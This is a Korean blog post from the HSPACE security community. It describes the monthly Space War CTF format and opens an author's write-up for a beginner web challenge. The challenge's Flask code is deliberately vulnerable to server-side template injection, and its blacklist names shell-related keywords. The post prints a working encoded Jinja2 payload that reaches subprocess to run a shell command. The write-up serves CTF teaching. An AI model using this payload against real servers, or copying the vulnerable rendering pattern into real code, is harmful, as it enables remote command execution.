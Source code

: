 ### 2. 스페이스 워

이제 스페이스 워입니다. 매월 정기적으로 대회를 개최하며 월마다 진행되는 중요 행사들의 일정을 반영하여 1회에서 2회 사이로 대회를 개최합니다. 또한 매 대회마다의 테마가 정해져 있습니다. 예시로 24년 1월에는 웹해킹 테마와 포너블 테마, 2월에는 리버싱 테마와 크립토 테마의 대회가 개최되는 등의 형식입니다. <br>
장점으로는 아무래도 참여하는데에 제약이 없다는 점입니다. 이전의 파트너 CTF와는 다르게 HSPACE의 회원이라면 모두가 참여할 수 있고, 수상의 개념도 공식적으로 추가되었습니다. 물론 부상(副賞)역시 존재합니다. 또한 정기적으로 대회가 개최되기 때문에, 본인이 참여할 수 있는 시간에 적절히 참여하면 됩니다. 게다가 테마가 정해져 있기 때문에 본인이 원래 잘하던 분야에 집중하여 순위권을 노려볼수도 있고 상대적으로 약했던 분야를 연습하기에도 유용합니다. <br>
단점으로는 아무래도 모두의 요구사항을 수용하기에는 어려움이 있고, 비슷한 결로 개인이나 단체가 원하는 시간에 원하는 테마의 대회를 즉시 참여할 수는 없다는 아쉬움은 있습니다.

위 두 대회의 차이점으로 미뤄보았을 때, **스페이스 워**의 방식을 채택하는 것이 참가하시는 분들, 그리고 HSPACE에게도 더 좋은 결과를 낳을 것이라 판단하게 되어 스페이스 워가 HSPACE의 공식 대회로 책정되었습니다.

그리 하여.. 지금의 스페이스 워가 탄생되었습니다! 스페이스 워에 대한 더 자세한 설명은 HPSACE 공식 카카오톡 오픈 채팅과 디스코드에서 확인하실 수 있으니 관심있으신 분들은 참고해주시면 좋을 것 같습니다. 오픈 채팅과 디스코드의 링크는 [HSPACE 공식 홈페이지](https://hspace.io/)에서 확인해보실 수 있습니다.

Space War에 대한 설명은 이쯤으로 마치고.. 2024년 1월 웹해킹 테마로 진행되었던 각 문제들의 출제자 write-up을 공유드리고 포스팅을 마치도록 하겠습니다. 긴 글 읽어주셔서 감사합니다.

**PS:** write-up을 읽지 않고 (혹은 읽으면서) 직접 문제를 해결해보고 싶으신 분들은 [HSPACE 워게임](https://chall.hspace.io/)에서 직접 문제를 풀어보실 수 있으니 많은 관심 부탁드립니다.

---

## for_beginner

**출제자 책정 난이도**: Easy

정말 간단한 ssti다.

```python
blacklist = ['os','subprocesses','exec','vars','sys','"','\+','open','rm','main','static','templates','ctf','rf','spawnlp','execfile','dir','dev','tcp','sh','import','built','__class__','for','request','\,','app','file','url_for','\[','\]','config']

def Prevent_SSTI(input):
    for i in blacklist:
        res = re.search(i,input)
        if res:
            return True
    else:
        return False

@app.route('/')
def main():
    name = request.args.get("name", "World")
    return render_template_string(f'Hello {name}!!')
```

name 파라미터로 데이터를 받은 뒤 render_template_string 함수를 이용해서 template rendering을 해주는 전형적인 ssti 문제다.
필터링이 걸려있는데, 우리가 고려해야할 것은 단지 `[,]`를 쓰지 못한다는 것이다. 이러한 것은 |와 attr을 이용하여 pyjail 풀 듯이 os나 subprocess 모듈 찾아서 함수 실행해주면 된다.

{% raw %}

```python
{{%27%27|attr(%27\x5f\x5fclass\x5f\x5f%27)|attr(%27\x5f\x5fmro\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(1)|attr(%27\x5f\x5fsubclasses\x5f\x5f%27)()|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(494)(%27cat%20flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}
```

{% endraw %}

